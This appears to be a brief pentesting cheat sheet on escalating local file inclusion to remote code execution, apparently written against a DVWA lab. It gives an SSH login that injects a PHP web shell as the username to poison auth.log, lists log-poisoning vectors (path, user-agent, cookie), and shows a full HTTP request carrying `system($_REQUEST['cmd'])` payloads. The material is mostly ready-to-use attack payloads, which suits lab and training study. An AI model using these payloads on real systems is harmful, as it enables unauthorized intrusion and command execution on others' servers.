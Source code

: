 # LFI
## LFI to RCE through SSH
`ssh "<?php system(\$_GET['cmd']);?>"@10.10.10.10`
then read `/var/log/auth.log`

## LFI to RCE through log poisoning
*we just gotta poison the logs with anything that reflects in them. that could be:*
1. the get path
2. the user-agent
3. the cookie
*whatever gets logged is a path for RCE*

## Example request
```
GET /vulnerabilities/fi/?page=<?php system($_REQUEST['cmd']);?> HTTP/1.1
Host: 192.168.56.103
User-Agent: Mozilla/5.0 <?php system($_REQUEST['cmd']);?> Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.56.103/vulnerabilities/fi/?page=include.php
Cookie: PHPSESSID=trdtrei248nhd08l4o5hqnspk3; security=low
Upgrade-Insecure-Requests: 1


```